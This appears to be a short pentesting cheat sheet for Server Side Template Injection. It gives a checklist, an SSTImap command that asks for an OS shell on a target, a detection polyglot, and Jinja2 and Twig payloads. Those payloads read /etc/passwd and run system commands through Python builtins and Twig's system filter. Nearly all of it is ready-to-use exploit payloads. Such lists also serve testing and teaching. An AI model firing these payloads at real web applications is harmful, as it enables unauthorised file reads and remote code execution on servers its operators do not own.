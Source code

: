 Server Side Template Injection
- [ ] Identify template engine
- [ ] Attempt to return class object, read file then RCE
-  Automation tool: SSTIMap
```bash
python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell
```
***Detection***
```bash
${{<%[%'"}}%\.
```
### Python
***Jinja2***
```jinja2
{{ 7*7 }}
{{settubgs}}
{% debug %}
{{ self.__init__.__globals__.__builtins__ }}
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
### PHP 
***Twig***
```twig
{{ 7*7 }}
{{ _self }}
{{ "/etc/passwd"|file_excerpt(1,-1) }}
{{ ['id'] | filter('system') }}
```